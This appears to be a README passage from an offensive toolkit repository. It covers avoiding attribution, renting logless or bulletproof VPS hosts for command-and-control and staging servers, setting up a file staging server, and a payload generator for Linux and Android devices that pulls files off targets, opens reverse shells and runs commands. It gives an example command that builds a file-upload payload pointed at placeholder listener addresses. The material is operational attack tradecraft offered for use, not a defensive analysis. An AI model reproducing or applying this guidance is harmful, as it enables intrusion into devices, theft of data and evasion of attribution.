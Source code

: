 - Randomizing modes of communication (Encryption, ports, servers, etc) can help avoid attribution.
- Encrypting communications with compromised devices/implants
- Obfuscating code flow and addresses


****************************************************************

## <u>Tool Staging Plan</u>

### Virtual Private servers
There are many VPS hosters, logless and bulletproof providers are preferred. These can be used to host C2 servers and staging servers.

### Staging Servers
Staging server can be used to host tools, binaries, and upload/download files.

A simple server HTTP server can be set up locally (not recommended) or on a VPS to recieve and stage files. This can be done with something like [this script](/src/StagingServer.js)

This script can be set up by doing the following steps:
1. Download the staging server to the directory you wish you host it from.
2. Access the directory it is installed to (ex: `cd ~/Downloads/server`)
3. Edit the StagingServer.js file to have the traffic directed through by editing the PORT value. This port must be open and (if needed) port forwarded to the device.
4. run `npm install express` and `npm install node` in the directory the file is downloaded to
5. Edit the server as needed to stage/recieve files
6. Run `node StagingServer.js` to start the server.
   
### Payload Generator

[payloadgenerator](/src/payloadgenerator.py) is a tool capable of generating payloads for linux/android for the following purposes:
- [Uploading files from the target device](#pg-uploading-files)
- [Downloading files to the target device](#pg-downloading-files)
- [Opening a reverse shell](#pg-reverse-shell)
- [Executing commands](pg-command-execution)
- [Retrieving system spec information](#pg-system-info-payload)

It is a python script that has the following arguments. 

> -e: chooses which payload to generate
> -i:Host IP address
> -p:Host Port
> -li:IP Address used for sending back results
> -lp:Port used for sending back results
> -c: Executed commands for cmd option
> -o: Output file name

#### PG: Uploading files 
A payload for Uploading files from the machine can be made with the “-e upload” argument. 

Example:
`python3 payloadgenerator.py -e upload -li LISTERNERIP1 -lp LISTENERPORT1 -i LISTERNERIP2 -p LISTENERPORT2`
